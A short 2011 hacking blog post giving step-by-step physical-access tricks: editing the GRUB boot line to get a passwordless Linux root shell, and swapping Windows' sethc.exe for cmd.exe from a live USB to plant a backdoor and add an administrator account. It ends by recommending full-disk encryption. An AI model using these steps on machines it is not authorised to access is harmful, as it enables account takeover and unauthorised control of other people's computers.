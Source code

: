 Title: Cute Physical Access Tricks
Date: 2011-08-02 11:11
Author: isis agora lovecruft
Category: hacking
Tags: hacking, linux, password reset, physical access tricks, privilege escalation, root shell, windows

They're cute because they're so adorably simplistic:

If you have physical access to a Linux box, do:

`Press ESC at the grub prompt.`

Press e for edit.

Highlight the line that begins kernel ………, press e

Go to the very end of the line, add rw init=/bin/bash

press enter, then press b to boot your system.

Your system will boot up to a passwordless root shell.

 

For situations with physical access to a Windows box, boot into a live
Linux USB/CD and do:

`mkdir /mnt/ntfs`

mount -t captive-ntfs /dev/hda1 /mnt/ntfs

cd /mnt/ntfs/windows/system32

mv sethc.exe sethc.old; cp cmd.exe sethc.exe

sync

cd \~

umount /mnt/ntfs

shutdown –r

Then, in the shell which appears, make an admin account by doing:

`NET USER admin password /add`

NET LOCALGROUP administrators admin /add

Of course, neither of these work if you're using full-disk encryption.
So, Windows users: [use TrueCrypt][]! And Linux users: use [ecryptfs][]
and[luks][]! Dualbooters can [use this tutorial][]. And Mac users...from
my understanding, you're fucked and there's no way to full-disk encrypt
a Mac, but I don't use Macs, so I could be wrong. Hey, it's the price
you pay for having a hipster computer. /snark!

And full-disk encryption doesn't void flaws in physical security issues,
such as presented in the Evil Maid or Cold Boot attacks. Duh. If they
can physically get to your computer, especially if they can get to it
and then come back to it later, you're still fucked.

  [use TrueCrypt]: http://www.truecrypt.org/
  [ecryptfs]: http://www.makeuseof.com/tag/encrypt-your-files-in-linux-with-ecryptfs/
  [luks]: http://www.adamsinfo.com/linux-luks-crypt-howto/
  [use this tutorial]: http://ubuntuforums.org/showthread.php?t=761530
